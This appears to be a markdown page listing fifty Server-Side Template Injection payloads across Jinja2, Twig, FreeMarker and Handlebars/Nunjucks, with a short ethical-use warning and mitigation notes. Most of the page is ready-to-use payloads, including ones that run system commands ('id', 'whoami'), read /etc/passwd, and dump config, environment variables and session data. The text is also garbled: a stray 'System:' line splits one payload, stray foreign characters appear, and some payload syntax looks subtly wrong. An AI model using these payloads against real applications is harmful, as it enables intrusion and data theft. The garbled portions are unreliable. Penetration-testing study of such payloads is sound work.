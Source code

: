 ```yaml
---
title: "Server-side template injection payload"
tags:
  - SSTI_injection
---
```


Many template engine (e.g., Jinja2, Twig, FreeMarker) exists different context (e.g., Flask, Symfony).

Server-Side Template Injection (SSTI) is a vulnerability where attackers inject malicious code into template engines (e.g., Jinja2, Twig, FreeMarker, Handlebars) used by web applications to dynamically generate content. By injecting template expressions, attackers can execute arbitrary code, access server-side data, or manipulate application logic. Below is a list of 50 example SSTI payloads tailored to various template engines. These payloads are designed to test for vulnerabilities in controlled environments.

**Warning**: These payloads are for educational and ethical testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical. Always test responsibly in a legal, authorized environment.

### SSTI Payload Characteristics
- Payloads target template engine syntax, which varies by framework (e.g., {% raw %} `{{ }}` for Jinja2, `{% %}` {% endraw %} for Twig, `${}` for FreeMarker).
- Common goals include executing code, accessing sensitive data (e.g., `request`, `config`), or testing for template rendering.
- Payloads often exploit template engine features like variable access, loops, or function calls.

The payloads below cover popular template engines and include generic tests, specific engine syntax, and advanced exploitation techniques. They assume user input is directly embedded into a template (e.g., `Hello {{user_input}}`). Adapt payloads based on the suspected template engine.

### SSTI Payloads
#### Generic Detection Payloads
These test for SSTI by attempting simple operations to detect template execution.

{% raw %}
1. `{{7*7}}` - Tests if `49` is rendered (Jinja2, Handlebars, etc.).
2. `${7*7}` - Tests for FreeMarker or Velocity template engines.
3. `<% 7*7 %>` - Tests for ERB (Ruby) or JSP template engines.
4. `{{1+1}}` - Tests basic arithmetic rendering.
5. `${{1+1}}` - Tests for Nunjucks or Handlebars.
6. `{% debug %}` - Tests for Twig debug output.
7. `{{ config }}` - Attempts to dump configuration (Jinja2, Flask).
8. `{{ request }}` - Accesses request object (Jinja2, Flask).
9. `<% out.println(7*7) %>` - Tests JSP execution.
10. `{{ ''.__class__ }}` - Tests for Python class access (Jinja2).
{% endraw %}

#### Jinja2/Flask (Python) Payloads
Jinja2 is common in Flask applications, using {% raw %} `{{ }}` {% endraw %} for expressions.

{% raw %}
11. `{{ ''.__class__.__mro__ }}` - Dumps method resolution order.
12. `{{ self.__init__.__globals__ }}` - Accesses global namespace.
13. `{{ ''.__class__.__base__ }}` - Accesses base class.
14. `{{ config.items() }}` - Dumps Flask configuration.
15. `{{ get_flashed_messages.__globals__ }}` - Accesses Flask globals.
16. `{{ ''.__class__.__subclasses__() }}` - Lists all subclasses.
17. `{{ ''.__class__.__base__.__subclasses__()[59].__init__.__func__.__globals__['sys'].modules['os'].system('id') }}` - Executes system command (Linux).
18. `{{ request.application.__self__.__dict__ }}` - Dumps application context.
19. `{{ url_for.__globals__['os'].p ո
{% endraw %}

System: .popen('whoami') }}` - Attempts to execute `whoami` command (Jinja2).
{% raw %}
20. `{{ ''.join(os.listdir('/')) }}` - Lists root directory contents.
{% endraw %}

#### Twig (PHP) Payloads
Twig is used in PHP frameworks like Symfony, using {% raw %} `{{ }}` {% endraw %} and {% raw %} `{% %}` {% endraw %} 禁止

{% raw %}
21. `{{ 1+1 }}` - Tests arithmetic evaluation.
22. `{{ app.request }}` - Accesses request object.
23. `{% include '/etc/passwd' %}` - Attempts to read sensitive file.
24. `{{ _context }}` - Dumps template context.
25. `{{ dump(app) }}` - Dumps application object.
26. `{% set foo = system('id') %}{{ foo }}` - Attempts command execution.
27. `{{ constant('PHP_OS') }}` - Retrieves OS information.
28. `{% debug %}` - Outputs debug information.
29. `{{ app.session.user }}` - Accesses session user data.
30. `{% filter phpinfo %}1{% endfilter %}` - Attempts to display PHP info.
{% endraw %}

#### FreeMarker (Java) Payloads
FreeMarker is used in Java applications, using `${}` for expressions.

{% raw %}
31. `${7*7}` - Tests arithmetic evaluation.
32. `${.api}` - Dumps FreeMarker API context.
33. `${.dataModel}` - Accesses data model.
34. `${request}` - Accesses HTTP request object.
35. `${.builtIns?keys}` - Lists built-in functions.
36. `${.getClass().forName("java.lang.Runtime").getMethod("exec","java.lang.String").invoke(null,"whoami")}` - Attempts command execution.
37. `${user}` - Accesses user object.
38. `${.vars}` - Dumps all variables in scope.
39. `${System.getProperty("os.name")}` - Retrieves OS name.
40. `${.main?string}` - Dumps main template data.
{% endraw %}

#### Handlebars/Nunjucks (JavaScript) Payloads
Used in Node.js applications, using {% raw %} `{{ }}` {% endraw %} or {% raw %} `{{{ }}}`{% endraw %} .

{% raw %}
41. `{{ 7 * 7 }}` - Tests arithmetic evaluation.
42. `{{ global.process }}` - Accesses Node.js process object.
43. `{{{ global }}}` - Dumps global scope.
44. `{{ require('os').userInfo() }}` - Attempts to retrieve user info.
45. `{{ process.env }}` - Dumps environment variables.
46. `{{ __dirname }}` - Retrieves current directory.
47. `{{{ this }}}` - Dumps current context.
48. `{{ require('fs').readdirSync('.') }}` - Lists current directory files.
49. `{{ global.process.argv }}` - Accesses command-line arguments.
50. `{{ Object.keys(global) }}` - Lists global object keys.
{% endraw %}

### Notes
- **Template Engine Detection**: Start with generic payloads (e.g., {% raw %} `{{7*7}}`{% endraw %} ) to identify the engine, then use engine-specific payloads.
- **Context-Specific**: Payloads must match the template engine’s syntax and available objects (e.g., `request` in Flask, `app` in Twig).
- **Encoding**: For web inputs, payloads may need URL encoding (e.g., `{{` becomes `%7B%7B`).
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize user inputs, use safe template rendering (e.g., auto-escaping), and avoid embedding raw user input in templates.

